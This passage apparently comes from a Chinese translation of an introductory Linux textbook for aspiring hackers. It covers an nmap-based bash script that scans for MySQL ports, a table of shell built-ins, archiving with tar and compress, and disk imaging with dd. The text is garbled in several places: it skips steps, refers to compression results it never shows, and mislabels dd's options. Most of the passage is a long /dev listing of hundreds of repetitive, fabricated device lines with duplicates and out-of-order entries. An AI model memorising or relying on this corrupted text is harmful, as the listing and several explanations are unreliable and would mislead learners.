我们可以通过 `read` 命令后跟存储输入的变量名 ❷ 来实现。该命令将将用户输入的 IP 地址放入 `FirstIP` 变量中。然后我们就可以在整个脚本中使用 `FirstIP` 的值。

我们将对 `LastoctetIP` ③ 和 `port` ④ 变量也这样做，通过提示用户输入信息然后使用 `read` 命令进行捕获。

接下来，我们需要编辑刚刚创建并填充的脚本中的 `nmap` 命令。要使用存储在变量中的值，我们只需在变量名前加上 `$` 符号，例如 `$port`。因此在 ⑤ 处，我们扫描从第一个用户输入的 IP 到第二个用户输入的 IP 的地址范围，并查找用户输入的特定端口。我们使用变量代替子网进行扫描，并使用端口来确定扫描内容。重定向符号 `>` 告诉标准的 nmap 输出（通常去往屏幕）改向 `/dev/null`（`/dev/null` 只是一个发送输出使其消失的地方）。然后，我们将以可 grep 搜索的格式输出到名为 `MySQLscan` 的文件中。

下一行与我们的简单扫描器相同：它输出 `MySQLscan` 文件的内容，通过管道传递给 `grep`，在那里过滤出包含关键词 `open` 的行，然后将输出到新文件 `MySQLscan2` Ⓗ。最后，我们显示 `MySQLscan2` 文件的内容 Ⓗ。

如果一切运行如预期，脚本将扫描指定的开启端口。将此文件保存为 `MySQLscanner.sh`

# 运行示例

现在我们可以运行我们的简单脚本：

```
kali >./MySQLscanner.sh

Enter the starting IP address : 192.168.1.0

Enter the last octet of the last IP address : 255

Enter the port number you want to scan for : 3306

host: 192.168.1.69 ( Ports: 3306/open/tcp/mysql//
```


# 常用内置命令

正如承诺的，表 8-1 为你提供了一些内置命令列表。

表 8-1：内置命令

| 命令 | 功能 |
|---|---|
| `.` | 执行脚本 |
| `bg` | 将作业放入后台 |
| `cd` | 目录 |
| `eval` | 执行后续表达式 |
| `exec` | 在不创建新进程的情况下执行命令 |
| `exit` | 退出 shell |
| `export` | 使变量或函数对其他程序可用 |
| `fg` | 将作业调至前台 |
| `getopts` | 解析参数 |
| `jobs` | 列出后台作业 |
| `pwd` | 显示当前目录 |
| `read` | 从标准输入读取 |
| `readonly` | 将变量设只读 |
| `set` | 列出所有变量 |
| `shift` | 向左移动参数 |
| `test` | 测试参数 |
| `[` | 执行条件测试 |
| `times` | 打印用户时间和系统时间 |
| `trap` | 捕获信号 |
| `type` | 显示每个参数如何被解释为命令 |
| `umask` | 修改新文件的默认权限 |
| `unset` | 删除变量或函数的值 |
| `wait` | 等待后台进程完成 |

## 总结

脚本编写是任何黑客或系统管理员的基本技能。它使你能够自动化通常需要花费数小时的任务，而且一旦脚本保存，就可以反复使用。`Bash` 脚本是最基本的脚本形式，你将在第 17 章学习功能更强大的 `Python` 脚本。

## 练习题

在进入第 9 章之前，通过完成以下练习来测试你在本章中学到的技能：

- 1. 创建一个与我们的 `HelloHackersArise` 脚本类似的自己的问候脚本。
- 2. 创建一个类似于 `MySQLscanner.sb` 的脚本，但用于寻找端口 `1433` 的 Microsoft SQL Server 数据库。命名为 `MSSQLscanner`。
- 3. 修改该 `MSSQLscanner`，提示用户输入起始和结束 IP 地址以及要搜索的端口。然后过滤掉所有端口关闭的 IP 地址，只显示开启的地址。

# 9 压缩与归档

黑客经常需要下载和安装新软件，还需要发送和下载多个脚本以及大型文件。如果将这些文件压缩并合并成单个文件，这些任务就会变得更容易。如果你来自 Windows 世界，你可能对 `.zip` 格式这一概念并不熟悉，它通过合并和压缩文件来减小体积，以便于在互联网或可移动介质上传输。在 Linux 中有许多方法可以实现这一目标，本章将介绍其中几个最常用的工具。我们还会查看 `dd` 命令，它可以让你复制整个驱动器，包括驱动器上已删除的文件。

## 什么是压缩？

压缩这个有趣的话题足以写成一整本书，但对于本书，我们只需要对该过程有基础的理解。正如其名所示，压缩使数据变得更小，从而需要更少的存储空间并使数据更容易传输。对于你作为初级黑客来说，将压缩分类为**有损**或**无损**就足够了。

有损压缩在减小文件尺寸非常有效，但信息的完整性会丢失。换句话说，压缩后的文件与原始文件并不完全相同。这种压缩对于图形、视频和音频文件效果非常好，在这些文件中，文件的微小差异几乎无法察觉——`mp3`、`.mp4`、`.png` 和 `.jpg` 都是有损压缩算法。如果 `.png` 文件中的一个像素或 `.mp3` 文件中的一个音符被改变，你的眼睛或耳朵可能察觉不到这种差异——当然，音乐发烧友会说他们绝对能看出 `.mp3` 和未压缩的 `.flac` 文件之间的区别。有损压缩的优势在于它的高效性和有效性。压缩率非常高，这意味着生成的文件远小于原始文件。

然而，当你发送文件或软件，且数据完整性至关重要时，有损压缩是不可接受的。例如，如果你正在发送一个脚本或文档，在解压缩时必须保留原始文件的完整性。本章重点关注这种无损压缩，它可以通过许多工具和算法实现。遗憾的是，正如你想象的那样，无损压缩没有有损压缩高效，但对于黑客来说，完整性往往比压缩率重要得多。

## 将文件打包在一起

通常，你在压缩文件时的第一件事是将它们合并成一个归档。在大多数情况下，归档文件时，你会使用 `tar` 命令。`Tar` 代表 `tape archive`（磁带归档），这于计算机史前的时代，当时系统使用磁带存储数据。`tar` 命令从多个文件创建一个单个文件，该文件随后被称为归档、`tar` 文件或 `tarball`（tar 包）。

例如，假设你有三个像我们在第 8 章中使用的脚本文件，命名为 `hackersarise1`、`hackersarise2` 和 `hackersarise3`。如果你进入包含这些文件的目录并执行长列表显示，你可以清楚地看到文件以及你预期的详细信息，包括文件大小，如下：

```
kali >ls -l

-rwxr-xr-x 1 root root 22311 Nov 27 2018 13:00 hackersarise1.sh

-rwxr-xr-x 1 root root 8791 Nov 27 2018 13:00 hackersarise2.sh

-rwxr-xr-x 1 root root 3992 Nov 27 2018 13:00 hackersarise3.sh
```

假设你想将所有这些文件发送给另一个与你合作项目的黑客。你可以使用列表 9-1 中的命令将它们合并并创建一个单个归档文件。

```
kali >tar -cvf HackArise.tar hackersarise1 hackersarise2 hackersarise3
```

**列表 9-1：创建一个包含三个文件的 tar 包**

让我们拆解这个命令以更好地理解它。归档命令是 `tar`，我们在这里使用了它的三个选项。`c` 选项表示 `create`（创建），`v`（代表 `verbose` 详细，是可选的）列出 `tar` 正在处理的文件，`f` 表示写入到后续文件。最后一个选项也适用于读取文件。然后我们给提供了想要从这三个脚本中创建的新归档文件名：`HackerArise.tar`。

完整来说，此命令将取所有三个文件并从中创建一个单个文件 `HackerArise.tar`。当你再次对目录进行列表显示时，你会发现它也包含了新的 `.tar` 文件，如下所示：

```
kali >ls -l

--snip-

-rw-r--r-- 1 root root 40960 Nov 27 2018 13:32 HackerArise.tar

--snip-

kall >
```

注意这里 tar 包的大小：40,960 字节。当三个文件被归档时，`tar` 使用了大量的开销来执行此操作：在归档之前这三个文件的总和为 35,094 字节，而归档后，tar 包增长到了 40,960 字节。换句话说，归档过程增加了 5,000 多字节。（等等，40960 - 35094 = 5866）。

当你执行操作时，文件将恢复到原始大小，文件扩展名恢复为 `.tar`。

### 使用 compress 进行压缩

最后，你可以使用 `compress` 命令来压缩文件。这可能是最不常用的压缩工具，但它很容易记忆。要使用它，只需输入 `compress` 命令后跟上文件名，如下：

```
kali >compress HackersArise.*
kali >ls -l

--snip-

fw-r--r-- 1 root root 5476 Nov 27 2018 13:32 HackersArise.tar.Z
```

注意，`compress` 工具将文件大小缩小到了 5,476 字节，是 `bzip2` 大小的两倍以上。还要注意，文件扩展名现在是 `.tar.Z`（大写 Z）。

要解压同一个文件，使用 `uncompress`：

```
kali >uncompress HackersArise.*
```

你也可以用 `gunzip` 命令处理用 `compress` 压缩的文件。

## 创建存储设备的位级拷贝或物理拷贝

在信息安全和黑客世界，有一条 Linux 归档命令在其实用性上脱颖而出。`dd` 命令可以对文件、文件系统甚至整个硬盘进行位级拷贝（bit-by-copy）。这意味着即使是被删除的文件也会复制（是的，知道你删除的文件可能是恢复的这很重要），这使得发现和恢复变得简单。大多数逻辑拷贝工具（如 `cp`）不会拷贝已删除的文件。

一旦黑客拥有了目标系统，`dd` 命令将允许他们将整个硬盘或存储设备拷贝到他们自己的系统中。

此外，那些负责捕获黑客的人——即取证调查员——可能会使用此命令制作硬盘的物理拷贝，其中包含已删除的文件和其他可能对寻找针对黑客证据有用的人工痕迹。

至关重要的一点是，`dd` 命令不应用于典型的日常文件和存储设备拷贝，因为它非常慢；其他命令可以更快、更高效地完成工作。但是，当你需要一个不包含文件系统或其他逻辑结构的存储设备拷贝时（例如在取取证调查中），它是极佳的工具。

`dd` 命令的基本语法如下：

```
dd if=inputfile of=outputfile
```

所以，如果你想为你的 U 盘制作物理拷贝，假设 U 盘是 `sdb`（我们将在第 10 章详细讨论此命名），你将输入：


`kali >dd if=/dev/sdb of=/root/flashcopy`

1257441=0 records in

1257440=0 records out

7643809280 bytes (7.6 GB) copied, 1220.729 s, 5.2 MB/s

让我们拆解这个命令：`dd` 指定输入文件，`/dev/sdb` 代表 `/dev` 目录下的你的 U 盘；`of` 指定输出文件；`/root/flashcopy` 是你想要将物理拷贝存放的文件名。（关于 Linux 系统中 `/dev` 目录下设备命名的更完整解释，请参见第 10 章。）

`dd` 命令有许多可用选项，你可以对这些进行一些研究，但最有用的是 `noerror` 选项和 `bs`（块大小）选项。正如名称所示，`noerror` 选项在遇到错误时继续拷贝。`bs` 选项允许你确定拷贝数据的块大小（每个块读取/写入的字节数）。默认情况下，设置为 512 字节，但可以更改它以加速过程。通常，这会被设置为设备的扇区大小，最常见的是 4KB（4096 字节）。使用这些选项，你的命令看起来像这样：

```
kali >dd if=/dev/media of=/root/flashcopy bs=4096 conv=noerror
```

如提到的，值得你自己多做一些研究，但这是对该命令及其常见用法的很好的介绍。

### 总结

Linux 有许多命令可以让你合并和压缩文件，以便于传输。对于合并文件，`tar` 是首选命令，你至少有三种压缩文件的工具——`gzip`、`bzip2` 和 `compress`——它们都具有不同的压缩率。`dd` 命令则远超这些。它允许你制作不包含文件系统等逻辑结构的存储设备物理拷贝，从而使你能够恢复诸如删除文件之类的人工痕迹。


# 10
## 文件系统与存储设备管理


如果你是从 Windows 环境过来的，Linux 表示和管理存储设备的方式对你来说相当不同。你已经看到文件系统没有硬盘的物理表示（如 Windows 中的 C:、D: 或 E: 系统），而是具有一个以 `/` 为顶端（即根目录 root）的目录树结构。本章将查看 Linux 如何表示硬盘、U 盘和其他存储设备。

我们首先查看额外的驱动器和其他设备是如何挂载到文件系统上的。挂载设备是到（根目录）的。在这种语境下，挂载简单意味着将驱动器连接到文件系统。对于黑客来说，了解系统上有哪些设备是必要的，它们在 `/dev` 目录中表示。我们从 `/dev` 目录开始。

设备按字母顺序显示。你可能认识某些设备，例如 `cdrom`，但其他设备的名字很晦涩。如果你向下滚动屏幕，应该看到更多设备。特别值得关注的是 `sda`、`sda2`、`sda3`、`sdb` 和 `sdb1`，它们是硬盘及其分区。

## /dev 目录

Linux 使用逻辑标签对于随后挂载的驱动器。这些逻辑标签将根据挂载的位置而异，同一个硬盘在不同时间根据挂载位置可能有不同的标签。你应该看到 `/dev` 的长列表。

### 设备 /dev

```
kali >cd /dev
kali >ls -l
total 0
crw-rw-rw- 1 root root 1, May 27 13:32 c0
crw-rw-rw- 1 root root 1, May 27 13:32 c1
crw-rw-rw- 1 root root 1, May 27 13:32 c2
crw-rw-rw- 1 root root 1, May 27 13:32 c3
crw-rw-rw- 1 root root 1, May 27 13:32 c4
crw-rw-rw- 1 root root 1, May 27 13:32 c5
crw-rw-rw- 1 root root 1, May 27 13:32 c6
crw-rw-rw- 1 root root 1, May 27 13:32 c7
crw-rw-rw- 1 root root 1, May 27 13:32 c8
crw-rw-rw- 1 root root 1, May 27 13:32 c9
crw-rw-rw- 1 root root 1, May 27 13:32 c10
crw-rw-rw- 1 root root 1, May 27 13:32 c11
crw-rw-rw- 1 root root 1, May 27 13:32 c12
crw-rw-rw- 1 root root 1, May 27 13:32 c13
crw-rw-rw- 1 root root 1, May 27 13:32 c14
crw-rw-rw- 1 root root 1, May 27 13:32 c15
crw-rw-rw- 1 root root 1, May 27 13:32 c16
crw-rw-rw- 1 root root 1, May 27 13:32 c17
crw-rw-rw- 1 root root 1, May 27 13:32 c18
crw-rw-rw- 1 root root 1, May 27 13:32 c19
crw-rw-rw- 1 root root 1, May 27 13:32 c20
crw-rw-rw- 1 root root 1, May 27 13:32 c21
crw-rw-rw- 1 root root 1, May 27 13:32 c22
crw-rw-rw- 1 root root 1, May 27 13:32 c23
crw-rw-rw- 1 root root 1, May 27 13:32 c24
crw-rw-rw- 1 root root 1, May 27 13:32 c25
crw-rw-rw- 1 root root 1, May 27 13:32 c26
crw-rw-rw- 1 root root 1, May 27 13:32 c27
crw-rw-rw- 1 root root 1, May 27 13:32 c28
crw-rw-rw- 1 root root 1, May 27 13:32 c29
crw-rw-rw- 1 root root 1, May 27 13:32 c30
crw-rw-rw- 1 root root 1, May 27 13:32 c31
crw-rw-rw- 1 root root 1, May 27 13:32 c32
crw-rw-rw- 1 root root 1, May 27 13:32 c33
crw-rw-rw- 1 root root 1, May 27 13:32 c34
crw-rw-rw- 1 root root 1, May 27 13:32 c35
crw-rw-rw- 1 root root 1, May 27 13:32 c36
crw-rw-rw- 1 root root 1, May 27 13:32 c37
crw-rw-rw- 1 root root 1, May 27 13:32 c38
crw-rw-rw- 1 root root 1, May 27 13:32 c39
crw-rw-rw- 1 root root 1, May 27 13:32 c40
crw-rw-rw- 1 root root 1, May 27 13:32 c41
crw-rw-rw- 1 root root 1, May 27 13:32 c42
crw-rw-rw- 1 root root 1, May 27 13:32 c43
crw-rw-rw- 1 root root 1, May 27 13:32 c44
crw-rw-rw- 1 root root 1, May 27 13:32 c45
crw-rw-rw- 1 root root 1, May 27 13:32 c46
crw-rw-rw- 1 root root 1, May 27 13:32 c47
crw-rw-rw- 1 root root 1, May 27 13:32 c48
crw-rw-rw- 1 root root 1, May 27 13:32 c49
crw-rw-rw- 1 root root 1, May 27 13:32 c50
crw-rw-rw- 1 root root 1, May 27 13:32 c51
crw-rw-rw- 1 root root 1, May 27 13:32 c52
crw-rw-rw- 1 root root 1, May 27 13:32 c53
crw-rw-rw- 1 root root 1, May 27 13:32 c54
crw-rw-rw- 1 root root 1, May 27 13:32 c55
crw-rw-rw- 1 root root 1, May 27 13:32 c56
```


```
crw-rw-rw- 1 root root 1, May 27 13:32 c57
crw-rw-rw- 1 root root 1, May 27 13:32 c58
crw-rw-rw- 1 root root 1, May 27 13:32 c59
crw-rw-rw- 1 root root 1, May 27 13:32 c60
crw-rw-rw- 1 root root 1, May 27 13:32 c61
crw-rw-rw- 1 root root 1, May 27 13:32 c62
crw-rw-rw- 1 root root 1, May 27 13:32 c63
crw-rw-rw- 1 root root 1, May 27 13:32 c64
crw-rw-rw- 1 root root 1, May 27 13:32 c65
crw-rw-rw- 1 root root 1, May 27 13:32 c66
crw-rw-rw- 1 root root 1, May 27 13:32 c67
crw-rw-rw- 1 root root 1, May 27 13:32 c68
crw-rw-rw- 1 root root 1, May 27 13:32 c69
crw-rw-rw- 1 root root 1, May 27 13:32 c70
crw-rw-rw- 1 root root 1, May 27 13:32 c71
crw-rw-rw- 1 root root 1, May 27 13:32 c72
crw-rw-rw- 1 root root 1, May 27 13:32 c73
crw-rw-rw- 1 root root 1, May 27 13:32 c74
crw-rw-rw- 1 root root 1, May 27 13:32 c75
crw-rw-rw- 1 root root 1, May 27 13:32 c76
crw-rw-rw- 1 root root 1, May 27 13:32 c77
crw-rw-rw- 1 root root 1, May 27 13:32 c78
crw-rw-rw- 1 root root 1, May 27 13:32 c79
crw-rw-rw- 1 root root 1, May 27 13:32 c80
crw-rw-rw- 1 root root 1, May 27 13:32 c81
crw-rw-rw- 1 root root 1, May 27 13:32 c82
crw-rw-rw- 1 root root 1, May 27 13:32 c83
crw-rw-rw- 1 root root 1, May 27 13:32 c84
crw-rw-rw- 1 root root 1, May 27 13:32 c85
crw-rw-rw- 1 root root 1, May 27 13:32 c86
crw-rw-rw- 1 root root 1, May 27 13:32 c87
crw-rw-rw- 1 root root 1, May 27 13:32 c88
crw-rw-rw- 1 root root 1, May 27 13:32 c89
crw-rw-rw- 1 root root 1, May 27 13:32 c90
crw-rw-rw- 1 root root 1, May 27 13:32 c91
crw-rw-rw- 1 root root 1, May 27 13:32 c92
crw-rw-rw- 1 root root 1, May 27 13:32 c93
crw-rw-rw- 1 root root 1, May 27 13:32 c94
crw-rw-rw- 1 root root 1, May 27 13:32 c95
crw-rw-rw- 1 root root 1, May 27 13:32 c96
crw-rw-rw- 1 root root 1, May 27 13:32 c97
crw-rw-rw- 1 root root 1, May 27 13:32 c98
crw-rw-rw- 1 root root 1, May 27 13:32 c99
crw-rw-rw- 1 root root 1, May 27 13:32 c100
crw-rw-rw- 1 root root 1, May 27 13:32 c101
crw-rw-rw- 1 root root 1, May 27 13:32 c102
crw-rw-rw- 1 root root 1, May 27 13:32 c103
crw-rw-rw- 1 root root 1, May 27 13:32 c104
crw-rw-rw- 1 root root 1, May 27 13:32 c105
crw-rw-rw- 1 root root 1, May 27 13:32 c106
crw-rw-rw- 1 root root 1, May 27 13:32 c107
crw-rw-rw- 1 root root 1, May 27 13:32 c108
crw-rw-rw- 1 root root 1, May 27 13:32 c109
crw-rw-rw- 1 root root 1, May 27 13:32 c110
crw-rw-rw- 1 root root 1, May 27 13:32 c111
crw-rw-rw- 1 root root 1, May 27 13:32 c112
crw-rw-rw- 1 root root 1, May 27 13:32 c113
crw-rw-rw- 1 root root 1, May 27 13:32 c114
crw-rw-rw- 1 root root 1, May 27 13:32 c115
crw-rw-rw- 1 root root 1, May 27 13:32 c116
crw-rw-rw- 1 root root 1, May 27 13:32 c117
crw-rw-rw- 1 root root 1, May 27 13:32 c118
crw-rw-rw- 1 root root 1, May 27 13:32 c119
crw-rw-rw- 1 root root 1, May 27 13:32 c120
crw-rw-rw- 1 root root 1, May 27 13:32 c121
crw-rw-rw- 1 root root 1, May 27 13:32 c122
crw-rw-rw- 1 root root 1, May 27 13:32 c123
crw-rw-rw- 1 root root 1, May 27 13:32 c124
crw-rw-rw- 1 root root 1, May 27 13:32 c125
crw-rw-rw- 1 root root 1, May 27 13:32 c126
crw-rw-rw- 1 root root 1, May 27 13:32 c127
crw-rw-rw- 1 root root 1, May 27 13:32 c128
crw-rw-rw- 1 root root 1, May 27 13:32 c129
crw-rw-rw- 1 root root 1, May 27 13:32 c130
crw-rw-rw- 1 root root 1, May 27 13:32 c131
crw-rw-rw- 1 root root 1, May 27 13:32 c132
crw-rw-rw- 1 root root 1, May 27 13:32 c133
crw-rw-rw- 1 root root 1, May 27 13:32 c134
crw-rw-rw- 1 root root 1, May 27 13:32 c135
crw-rw-rw- 1 root root 1, May 27 13:32 c136
crw-rw-rw- 1 root root 1, May 27 13:32 c137
crw-rw-rw- 1 root root 1, May 27 13:32 c138
crw-rw-rw- 1 root root 1, May 27 13:32 c139
crw-rw-rw- 1 root root 1, May 27 13:32 c140
crw-rw-rw- 1 root root 1, May 27 13:32 c141
crw-rw-rw- 1 root root 1, May 27 13:32 c142
crw-rw-rw- 1 root root 1, May 27 13:32 c143
crw-rw-rw- 1 root root 1, May 27 13:32 c144
crw-rw-rw- 1 root root 1, May 27 13:32 c145
```


```
crw-rw-rw- 1 root root 1, May 27 13:32 c146
crw-rw-rw- 1 root root 1, May 27 13:32 c147
crw-rw-rw- 1 root root 1, May 27 13:32 c148
crw-rw-rw- 1 root root 1, May 27 13:32 c149
crw-rw-rw- 1 root root 1, May 27 13:32 c150
crw-rw-rw- 1 root root 1, May 27 13:32 c151
crw-rw-rw- 1 root root 1, May 27 13:32 c152
crw-rw-rw- 1 root root 1, May 27 13:32 c153
crw-rw-rw- 1 root root 1, May 27 13:32 c154
crw-rw-rw- 1 root root 1, May 27 13:32 c155
crw-rw-rw- 1 root root 1, May 27 13:32 c156
crw-rw-rw- 1 root root 1, May 27 13:32 c157
crw-rw-rw- 1 root root 1, May 27 13:32 c158
crw-rw-rw- 1 root root 1, May 27 13:32 c159
crw-rw-rw- 1 root root 1, May 27 13:32 c160
crw-rw-rw- 1 root root 1, May 27 13:32 c161
crw-rw-rw- 1 root root 1, May 27 13:32 c162
crw-rw-rw- 1 root root 1, May 27 13:32 c163
crw-rw-rw- 1 root root 1, May 27 13:32 c164
crw-rw-rw- 1 root root 1, May 27 13:32 c165
crw-rw-rw- 1 root root 1, May 27 13:32 c166
crw-rw-rw- 1 root root 1, May 27 13:32 c167
crw-rw-rw- 1 root root 1, May 27 13:32 c168
crw-rw-rw- 1 root root 1, May 27 13:32 c169
crw-rw-rw- 1 root root 1, May 27 13:32 c170
crw-rw-rw- 1 root root 1, May 27 13:32 c171
crw-rw-rw- 1 root root 1, May 27 13:32 c172
crw-rw-rw- 1 root root 1, May 27 13:32 c173
crw-rw-rw- 1 root root 1, May 27 13:32 c174
crw-rw-rw- 1 root root 1, May 27 13:32 c175
crw-rw-rw- 1 root root 1, May 27 13:32 c166
crw-rw-rw- 1 root root 1, May 27 13:32 c177
crw-rw-rw- 1 root root 1, May 27 13:32 c178
crw-rw-rw- 1 root root 1, May 27 13:32 c179
crw-rw-rw- 1 root root 1, May 27 13:32 c180
crw-rw-rw- 1 root root 1, May 27 13:32 c181
crw-rw-rw- 1 root root 1, May 27 13:32 c182
crw-rw-rw- 1 root root 1, May 27 13:32 c c88
crw-rw-rw- 1 root root 1, May 27 13:32 c114
crw-rw-rw- 1 root root 1, May 27  13:32 c115
crw-rw-rw- 1 root root 1, May 27 13:32 c116
crw-rw-rw- 1 root root 1, May 27 13:32 c117
crw-rw-rw- 1 root root 1, May 27 13:32 c118
crw-rw-rw- 1 root root 1, May 27 13:32 c119
crw-rw-rw- 1 root root 1, May 27 13:32 c120
crw-rw-rw- 1 root root 1, May 27 13:32 c121
crw-rw-rw- 1 root root 1, May 27 13:32 c122
crw-rw-rw- 1 root root 1, May 27 13:32 c123
crw-rw-rw- 1 root root 1, May 27 13:32 c124
crw-rw-rw- 1 root root 1, May 27 13:32 c125
crw-rw-rw- 1 root root 1, May 27 13:32 c126
crw-rw-rw- 1 root root 1, May 27 13:32 c127
crw-rw-rw- 1 root root 1, May 27 13:32 c128
crw-rw-rw- 1 root root 1, May 27 13:32 c129
crw-rw-rw- 1 root root 1, May 27 13:32 c130
crw-rw-rw- 1 root root 1, May 27 13:32 c131
crw-rw-rw- 1 root root 1, May 27 13:32 c132
crw-rw-rw- 1 root root 1, May 27 13:32 c133
crw-rw-rw- 1 root root 1, May 27 13:32 c134
crw-rw-rw- 1 root root 1, May 27 13:32 c135
crw-rw-rw- 1 root root 1, May 27 13:32 c136
crw-rw-rw- 1 root root 1, May 27 13:32 c137
crw-rw-rw- 1 root root 1, May 27 13:32 c138
crw-rw-rw- 1 root root 1, May 27 13:32 c139
crw-rw-rw- 1 root root 1, May 27 13:32 c140
crw-rw-rw- 1 root root 1, May 27 13:32 c141
crw-rw-rw- 1 root root 1, May 27 13:32 c142
crw-rw-rw- 1 root root 1, May 27 13:32 c143
crw-rw-rw- 1 root root 1, May 27 13:32 c144
crw-rw-rw- 1 root root 1, May 27 13:32 c145
crw-rw-rw- 1 root root 1, May 27 13:32 c146
crw-rw-rw- 1 root root 1, May 27 13:32 c147
crw-rw-rw- 1 root root 1, May 27 13:32 c148
crw-rw-rw- 1 root root 1, May 27 13:32 c149
crw-rw-rw- 1 root root 1, May 27 13:32 c150
crw-rw-rw- 1 root root 1, May 27 13:32 c151
crw-rw-rw- 1 root root 1, May 27 13:32 c152
crw-rw-rw- 1 root root 1, May 27 13:32 c153
crw-rw-rw- 1 root root 1, May 27 13:32 c154
crw-rw-rw- 1 root root 1, May 27 13:32 c155
crw-rw-rw- 1 root root 1, May 27 13:32 c156
crw-rw-rw- 1 root root 1, May 27 13:32 c157
crw-rw-rw- 1 root root 1, May 27 13:32 c158
crw-rw-rw- 1 root root 1, May 27 13:32 c159
crw-rw-rw- 1 root root 1, May 27 13:32 c160
crw-rw-rw- 1 root root 1, May 27 13:32 c161
crw-rw-rw- 1 root root 1, May 27 13:32 c162
crw-rw-rw- 1 root root 1, May 27 13:32 c163
```


```
crw-rw-rw- 1 root root 1, May 27 13:32 c164
crw-rw-rw- 1 root root 1, May 27 13:32 c165
crw-rw-rw- 1 root root 1, May 27 13:32 c166
crw-rw-rw- 1 root root 1, May 27 13:32 c167
crw-rw-rw- 1 root root 1, May 27 13:32 c168
crw-rw-rw- 1 root root 1, May 27 13:32 c169
crw-rw-rw- 1 root root 1, May 27 13:32 c170
crw-rw-rw- 1 root root 1, May 27 13:32 c171
crw-rw-rw- 1 root root 1, May 27 13:32 c172
crw-rw-rw- 1 root root 1, May 27 13:32 c173
crw-rw-rw- 1 root root 1, May 27 13:32 c174
crw-rw-rw- 1 root root 1, May 27 13:32 c175
crw-rw-rw- 1 root root 1, May 27 13:32 c176
crw-rw-rw- 1 root root 1, May 27 13:32 c177
crw-rw-rw- 1 root root 1, May 27 13:32 c178
crw-rw-rw- 1 root root 1, May 27 13:32 c179
crw-rw-rw- 1 root root 1, May 27 13:32 c180
crw-rw-rw- 1 root root 1, May 27 13:32 c181
crw-rw-rw- 1 root root 1, May 27 13:32 c182
crw-rw-rw- 1 root root 1, May 27 13:32 c183
crw-rw-rw- 1 root root 1, May 27 13:32 c184
crw-rw-rw- 1 root root 1, May 27 13:32 c185
crw-rw-rw- 1 root root 1, May 27 13:32 c186
crw-rw-rw- 1 root root 1, May 27 13:32 c187
crw-rw-rw- 1 root root 1, May 27 13:32 c188
crw-rw-rw- 1 root root 1, May 27 13:32 c189
crw-rw-rw- 1 root root 1, May 27 13:32 c190
crw-rw-rw- 1 root root 1, May 27 13:32 c191
crw-rw-rw- 1 root root 1, May 27 13:32 c192
crw-rw-rw- 1 root root 1, May 27 13:32 c193
crw-rw-rw- 1 root root 1, May 27 13:32 c194
crw-rw-rw- 1 root root 1, May 27 13:32 c195
crw-rw-rw- 1 root root 1, May 27 13:32 c196
crw-rw-rw- 1 root root 1, May 27 13:32 c197
crw-rw-rw- 1 root root 1, May 27 13:32 c198
crw-rw-rw- 1 root root 1, May 27 13:32 c199
crw-rw-rw- 1 root root 1, May 27 13:32 c200
crw-rw-rw- 1 root root 1, May 27 13:32 c201
crw-rw-rw- 1 root root 1, May 27 13:32 c202
crw-rw-rw- 1 root root 1, May 27 13:32 c203
crw-rw-rw- 1 root root 1, May 27 13:32 c204
crw-rw-rw- 1 root root 1, May 27 13:32 c205
crw-rw-rw- 1 root root 1, May 27 13:32 c206
crw-rw-rw- 1 root root 1, May 27 13:32 c207
crw-rw-rw- 1 root root 1, May 27 13:32 c208
crw-rw-rw- 1 root root 1, May 27 13:32 c209
crw-rw-rw- 1 root root 1, May 27 13:32 c210
crw-rw-rw- 1 root root 1, May 27 13:32 c211
crw-rw-rw- 1 root root 1, May 27 13:32 c212
crw-rw-rw- 1 root root 1, May 27 13:32 c213
crw-rw-rw- 1 root root 1, May 27 13:32 c214
crw-rw-rw- 1 root root 1, May 27 13:32 c215
crw-rw-rw- 1 root root 1, May 27 13:32 c216
crw-rw-rw- 1 root root 1, May 27 13:32 c217
crw-rw-rw- 1 root root 1, May 27 13:32 c218
crw-rw-rw- 1 root root 1, May 27 13:32 c219
crw-rw-rw- 1 root root 1, May 27 13:32 c220
crw-rw-rw- 1 root root 1, May 27 13:32 c221
crw-rw-rw- 1 root root 1, May 27 13:32 c222
crw-rw-rw- 1 root root 1, May 27 13:32 c223
crw-rw-rw- 1 root root 1, May 27 13:32 c224
crw-rw-rw- 1 root root 1, May 27 13:32 c225
crw-rw-rw- 1 root root 1, May 27 13:32 c226
crw-rw-rw- 1 root root 1, May 27 13:32 c227
crw-rw-rw- 1 root root 1, May 27 13:32 c228
crw-rw-rw- 1 root root 1, May 27 13:32 c229
crw-rw-rw- 1 root root 1, May 27 13:32 c230
crw-rw-rw- 1 root root 1, May 27 13:32 c231
crw-rw-rw- 1 root root 1, May 27 13:32 c232
crw-rw-rw- 1 root root 1, May 27 13:32 c233
crw-rw-rw- 1 root root 1, May 27 13:32 c234
crw-rw-rw- 1 root root 1, May 27 13:32 c235
crw-rw-rw- 1 root root 1, May 27 13:32 c236
crw-rw-rw- 1 root root 1, May 27 13:32 c237
crw-rw-rw- 1 root root 1, May 27 13:32 c238
crw-rw-rw- 1 root root 1, May 27 13:32 c239
crw-rw-rw- 1 root root 1, May 27 13:32 c240
crw-rw-rw- 1 root root 1, May 27 13:32 c241
crw-rw-rw- 1 root root 1, May 27 13:32 c242
crw-rw-rw- 1 root root 1, May 27 13:32 c243
crw-rw-rw- 1 root root 1, May 27 13:32 c244
crw-rw-rw- 1 root root 1, May 27 13:32 c245
crw-rw-rw- 1 root root 1, May 27 13:32 c246
crw-rw-rw- 1 root root 1, May 27 13:32 c247
crw-rw-rw- 1 root root 1, May 27 13:32 c248
crw-rw-rw- 1 root root 1, May 27 13:32 c249
crw-rw-rw- 1 root root 1, May 27 13:32 c250
crw-rw-rw- 1 root root 1, May 27 13:32 c251
```


```
crw-rw-rw- 1 root root 1, May 27 13:32 c252
crw-rw-rw- 1 root root 1, May 27 13:32 c253
crw-rw-rw- 1 root root 1, May 27 13:32 c254
crw-rw-rw- 1 root root 1, May 27 13:32 c255
crw-rw-rw- 1 root root 1, May 27 13:32 c256
crw-rw-rw- 1 root root 1, May 27 13:32 c257
crw-rw-rw- 1 root root 1, May 27 13:32 c258
crw-rw-rw- 1 root root 1, May 27 13:32 c259
crw-rw-rw- 1 root root 1, May 27 13:32 c260
crw-rw-rw- 1 root root 1, May 27 13:32 c261
crw-rw-rw- 1 root root 1, May 27 13:32 c262
crw-rw-rw- 1 root root 1, May 27 13:32 c263
crw-rw-rw- 1 root root 1, May 27 13:32 c264
crw-rw-rw- 1 root root 1, May 27 13:32 c265
crw-rw-rw- 1 root root 1, May 27 13:32 c266
crw-rw-rw- 1 root root 1, May 27 13:32 c267
crw-rw-rw- 1 root root 1, May 27 13:32 c268
